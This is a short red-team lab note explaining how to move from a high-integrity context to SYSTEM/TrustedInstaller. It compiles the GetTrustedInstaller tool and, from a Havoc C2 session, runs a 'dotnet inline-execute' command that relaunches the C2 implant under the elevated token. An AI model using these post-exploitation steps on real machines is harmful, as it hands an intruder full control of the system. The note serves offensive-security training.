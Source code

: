 # Lab - GetSystem

A very simple lab stat shows you another way of getting SYSTEM when running in a high integrity context.

<https://github.com/rara64/GetTrustedInstaller>

Compile the code and upload with updog2 to kali /opt/Havoc/assemblies

From your demon session in Havoc C2 Client
```bash
dotnet inline-execute /opt/Havoc/assemblies/GetTrustedInstaller.exe "c:\temp\demon.x64.exe"
```
![image](./images/lab_getsystem_trusted.jpg)
![image](./images/lab_getsystem_si.jpg)